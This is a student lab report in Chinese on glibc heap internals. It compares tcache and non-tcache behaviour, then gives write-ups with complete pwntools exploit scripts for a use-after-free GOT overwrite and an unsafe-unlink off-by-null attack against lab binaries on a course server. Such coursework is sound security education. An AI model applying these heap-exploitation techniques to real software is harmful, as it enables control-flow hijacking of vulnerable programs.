## Report of Lab4

​																										王睿 3180103650

### 1. test

#### 1.1 断点处截图与分析

##### 1.1.0 checkpoint 0



如图，左边为不开启tcache，右边为开启了tcache的堆状态。开启了tcache后，首次分配会多出一个0x251大小的chunk，区别于未开启tcache的情况。

##### 1.1.1 checkpoint 1



如图，左边为不开启tcache，右边为开启了tcache的堆状态。后续的正常malloc都是一样的。

##### 1.1.2 checkpoint 2


如图，左边为不开启tcache，右边为开启了tcache的堆状态。后续的正常malloc都是一样的。

##### 1.1.3 checkpoint 3



如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-3处的堆状态

可以看到，未开启tcache时，free掉的chunk是被放到fastbins中，而开启了tcache时，free掉的chunk被放到了tcache中；同时，未开启tcache时free的chunk的fd是指向前一个chunk的起始地址，但开启了tcache后，fd指向的是前一个chunk的起始地址+0x10处。

##### 1.1.4 checkpoint 4



如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-4处的堆状态。

可以看到，此处malloc拿到的chunk是之前最后一条free语句释放的（即` free(c[1]);`）

##### 1.1.5 checkpoint 5


如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-5处的堆状态。

无论是否启用tcache，都会开辟一条新的fd单链表。

##### 1.1.6 checkpoint 6



如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-6处的堆状态。

不开启tcache时，堆管理器会将连续的多个free chunk进行合并；而开启了tcache时并不会，他会优先从tcache中开辟新空间。

##### 1.1.7 checkpoint 7



如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-7处的堆状态.

可以看到，被释放的a[0]与a[1]的chunk被合并到一起，存入unsortedbin中，fd与bk均指向高地址处

有无tcache现象都是一样的。

#### 1.2 回答问题

1. 开启tcache和不开启tcache初始堆状态有什么区别

   

   如图，左边为不开启tcache，右边为开启了tcache的初始堆状态。

   在执行了一次malloc进行初始化后，未开启tcache的情况下，正常只分配了一个chunk；而在开启了tcache后，分配了两个chunk，第一个有0x251的大小，第二个才是程序中`a[0]`使用到的chunk

2. 开启tcache和不开启tcache在checkpoint-3时free后存在的区别

   

   如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-3处的堆状态

   可以看到，未开启tcache时，free掉的chunk是被放到fastbins中，而开启了tcache时，free掉的chunk被放到了tcache中；同时，未开启tcache时free的chunk的fd是指向前一个chunk的起始地址，但开启了tcache后，fd指向的是前一个chunk的起始地址+0x10处。

3. checkpoint-4时拿到的chunk是之前哪条语句释放的，有无tcache现象是否不一样?

   

   如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-4处的堆状态.

   可以看到，此处malloc拿到的chunk是之前最后一条free语句释放的（即` free(c[1]);`）

   有无tcache现象都是一样的。

4. checkpoint-7时被释放的a[0], a[1]是怎样组织的，有无tcache现象是否不一样?

   

   如图，左边为不开启tcache，右边为开启了tcache，在checkpoint-7处的堆状态.

   可以看到，被释放的a[0]与a[1]的chunk被合并到一起，存入unsortedbin中，fd与bk均指向高地址处

   有无tcache现象都是一样的。

### 2. UAF

首先检查程序的权限如下：


可以看到，未启用PIE选项。

#### 2.1 布置合适的heap layout

首先，我们可以利用`add_ddl()`先申请3个对象，然后释放先前申请的2个 (设先释放A，后释放B)，已经释放的两个chunk会进入tcache组织，此时的heap layout如下：



可以看到，fd单链表中的结构大致如下：`tcache -> B -> A`. 且B的fd指向0x22152f0处（即A的地址+0x10处）

#### 2.2 污染fd指针

此时，我们可以利用`edit_ddl()`将B的fd修改为`exit()`函数的GOT，这样，当我们在下一步中重新malloc两个对象时，就可以写入`exit()`的GOT entry

在这里，我们需要确认edit的是ddl对象中的哪个值。在上一步中，我们看到了B的fd指向0x22152f0处，为此，我们可以通过gdb调试看到，读入A的`ddl_time`参数时，地址也是0x22152f0，因此，我们可以通过`edit_ddl("2", p64(edit_got), 0xdeadbeef)`来实现污染fd指针，使其指向`exit()`的GOT。


而`exit()`函数的got可以通过`objdump -R uaf`的命令获得，如下：



综上，完成污染fd指针后的heap layout如下：



可以看到，B的fd已经指向了我们想要的目标

#### 2.3 改写目标地址

经过上一步分析，我们可以通过重新申请两个ddl对象，并将第二个对象的`ddl_time`变量设置为`backdoor()`函数的地址，即可完成改写目标地址。


可以看到，`exit()`内的got entry已经变为了`backdoor()`的地址。

#### 2.4 触发

因此，我们只需要在选择操作时输入5，执行`exit()`函数，控制流就会跳到我们希望的后门函数中。最终的截图如下：


整个过程完整的exploit.py代码如下：

```python
from pwn import *

context.log_level = 'DEBUG'


def add_ddl(time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("1")
    p.recvuntil("the ddl time\n")
    p.sendline(time)
    p.recvuntil("the ddl content")
    p.sendline(content) 

def free_ddl(index):
    p.recvuntil("Your chocie:\n")
    p.sendline("2")
    p.recvuntil("the ddl index")
    p.sendline(index)

def edit_ddl(index, time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("4")
    p.recvuntil("the ddl index")
    p.sendline(index)
    p.recvuntil("new ddl time")
    p.sendline(time)
    p.recvuntil("new ddl content")
    p.sendline(content)

local = 0
exit_got = 0x0602078
backdoor_addr = 0x400917

if local:
    p = process('./uaf', env={'LD_LIBRARY_PATH':'.'})
else:
    p = remote("47.99.80.189", 10030)
    libc = ELF('libc-2.27.so')
    p.recvuntil('ID:')
    p.sendline('3180103650')

raw_input()

# 1. malloc 3 ddls: A, B and C
add_ddl("11.11", "ddl_1")
add_ddl("22.22", "ddl_2")
add_ddl("33.33", "ddl_3")

# 2. free 2 ddls: A and B
free_ddl("1")
free_ddl("2")

# 3. pollute B's fd -> GOT of exit()
edit_ddl("2", p64(exit_got), "SSS")

# 4. malloc B -> write GOT of exit()
add_ddl("22.22", "ddl_1")
add_ddl(p64(backdoor_addr), "ddl_2")

# 5. exit() -> backdoor()
p.recvuntil("Your chocie:\n")
p.sendline("5")
p.recv()
p.interactive()
```

### 3. unsafe unlink

首先梳理一下该题的思路：

- 通过先创建3个连续的chunk（分别记作chunk1, chunk2, chunk3），其中chunk2是后续用于free的，chunk3是为了避免与free(chunk2)时直接与top chunk合并所作的保护。
- 利用程序内的edit功能，修改chunk1的内容，在chunk1内创建fake chunk并通过溢出修改chunk2的metadata段内的部分重要标志位。需要注意的是，我们将fake chunk的起始地址就设计在chunk1的user data段，这样可以直接用array这个全局变量，因为array指向的就是chunk1的user data段。
- 利用free(chunk2)，导致fake chunk的unlink，而unlink的过程中会导致array[0]中的值变为array-24
- 通过edit功能，修改chunk1，因为array[0]中的值为array-24，所以我们修改chunk1.data[3]处的内容为`&targetID`，这样就将array[0]的值改为了`&targetID`，也就是说，我们将chunk1的data段的地址改写了。而程序寻找chunk1的data段是通过array[0]获取的，后续再次调用edit功能改chunk1.data的内容，就完成了对targetID的值的修改

这题的输入有点坑，要注意一些细节。

#### 3.1 布置堆layout

首先连续创建3个ddl，可以看到下图中间三个chunk，从上往下依次记作chunk1, chunk2, chunk3



这三个chunk的大小都是0x600，且PREV_INUSE位都被置为1

#### 3.2 off-by-null

通过edit修改chunk1的内容，最终的heap layout如下：



其中，有以下细节需要注意：

- 利用off-by-null漏洞，修改chunk2的mchunk_size最后一位为0，即设置PREV_INUSE=0

- 在chunk1中设计fake chunk，它的起始地址为chunk1+0x10，即位于chunk1的data段起始处（这样可以利用array全局变量指针）

  - 设置fake_chunk_size与fake_prev_size为0x5f，二者需要相同，因为unlink内存在检查
  - 设置fake_chunk_fd为array-24，fake_chunk_bk为array-18，用于绕过unlink内的FD->bk=P与BK->fd=P的检查
  - 设置fake chunk内的内容填充为0x0（特别是fake_chunk_fd_nextsize处的值）：如果随意设定非零值因为fake chunk的size比较大，正常unlink执行完写原语后会进入下图红框所在的if，然后在判断(P->fd_nextsize->bk_nextsize!=P)会发生段错误，因为随意设置fd_nextsize会导致第二个->时地址越界。因此我们可以将fake_chunk_fd_nextsize处的内容设为0x00（即NULL），避免进入该if段

  

可以看到，执行完edit(chunk1)后，heap 的layout变为了我们想要的值



#### 3.3 free导致unlink

通过free(chunk2)，将fake chunk进行unlink操作，导致array[0]的内容变为array-24


#### 3.4 改写targetID

因为array[0]的内容为array-24，所以我们通过edit_ddl修改chunk1时，程序会认为chunk1的user data段在array-24处，那么我们可以将edit chunk1.data + 24处的内容修改为`&targetID`，这样就将array[0]的内容改成了`&targetID`。


也就是说，程序后续调用edit chunk1时，会认为chunk1的data段在targetID的地址处，那么我们往chunk1的data段写的内容就写进了targetID。


flag的截图如下：


完整的exploit.py代码如下：

```python
from pwn import *

#context.log_level = 'DEBUG'

def add_ddl(time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("1")
    p.recvuntil("input the ddl time")
    p.sendline(time)
    p.recvuntil("input the ddl content")
    p.sendline(content)
    p.recvuntil("done")

def free_ddl(index):
    p.recvuntil("Your chocie:\n")
    p.sendline("2")
    p.recvuntil("input the ddl index")
    p.sendline(index)
    p.recvuntil("done")

def edit_ddl(index, time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("4")
    p.recvuntil("input the ddl index")
    p.sendline(index)
    p.recvuntil("input the new ddl time")
    p.sendline(time)
    p.recvuntil("input the new ddl content")
    p.sendline(content)
    p.recvuntil("done")

def check():
    p.recvuntil("Your chocie:\n")
    p.sendline("6")
    


local = 0
fake_chunk_size = 0x5f0
array_addr = 0x6020e0
targetID_addr = 0x6020c0
fake_chunk_fd = array_addr - (3 * 8)
fake_chunk_bk = array_addr - (2 * 8)

if local:
    p = process('./unsafe_unlink', env = {'LD_LIBRARY_PATH': '.'})
else:
    p = remote("47.99.80.189", 10031)
    libc = ELF('libc-2.27.so')
    p.recvuntil("ID:")
    p.sendline("3180103650")

#raw_input()

# 1. set heap layout: A->B->C
add_ddl("AAAA", "AAAA")
add_ddl("BBBB", "BBBB")
add_ddl("CCCC", "CCCC")

# 2. off-by-null:
edit_ddl("1", p64(0x0) + p64(fake_chunk_size) + p64(fake_chunk_fd) + "\xd0\x20\x60", "\x00" * 0x5d0 + p64(fake_chunk_size))  

# 3. free B -> unlink
free_ddl("2")

# 4. write targetID
#edit_ddl("1", p64(0) * 3 + p64(targetID_addr), "\x00")
edit_ddl("1", p64(0) * 3 + "\xc0\x20\x60", "\x00")

edit_ddl("1", p64(3180103650), "\x00")

# 5. jump to backdoor
check()

p.interactive()
```

